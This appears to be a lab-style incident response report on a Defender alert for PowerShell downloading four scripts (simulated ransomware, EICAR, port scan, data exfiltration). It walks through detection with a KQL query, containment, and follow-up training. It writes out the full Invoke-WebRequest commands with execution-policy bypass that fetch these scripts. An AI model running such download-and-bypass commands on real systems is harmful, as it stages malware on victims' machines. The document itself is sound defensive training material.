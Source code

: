 ## Incident Response Report: PowerShell Suspicious Web Request

Incident ID: IR20250623-001

Date: June 23, 2025

---

### Detection and Analysis

On June 23, 2025, an incident titled "**PowerShell Suspicious Web Req.**" was triggered on **windows-target-1**. The alert indicated that **four different PowerShell scripts** were downloaded via `Invoke-WebRequest` commands. The incident was triggered by **one user** on this single device.

The following PowerShell commands were executed:

- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1`

Upon contacting the affected user, they stated that they attempted to install "free software," observed a momentary black screen, and then "nothing happened."

Further investigation using **Microsoft Defender for Endpoint (MDE)** confirmed that the downloaded scripts did run. The following KQL query was used to verify script execution:

Code snippet;
```sql
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine`
```

The downloaded scripts were submitted to the malware reverse engineering team, who provided the following analysis:

- **pwncrypt.ps1:** A PowerShell script simulating ransomware encryption.
- **eicar.ps1:** A PowerShell script designed to generate the EICAR test file for antivirus testing.
- **portscan.ps1:** A PowerShell script for performing network port scanning.
- **exfiltratedata.ps1:** A PowerShell script simulating data exfiltration.

---

### Containment, Eradication, and Recovery

1. The affected machine, **windows-target-1**, was immediately **isolated** in Microsoft Defender for Endpoint.
2. A full anti-malware scan was initiated on the isolated machine.
3. After the scan completed with no detected threats, the machine was **removed from isolation**.

---

### Post-Incident Activities

1. The affected user was enrolled in **additional cybersecurity awareness training**, and the organization's training package with KnowBe4 was upgraded.
2. Implementation of a new policy restricting PowerShell usage for non-essential users has begun to prevent similar incidents.
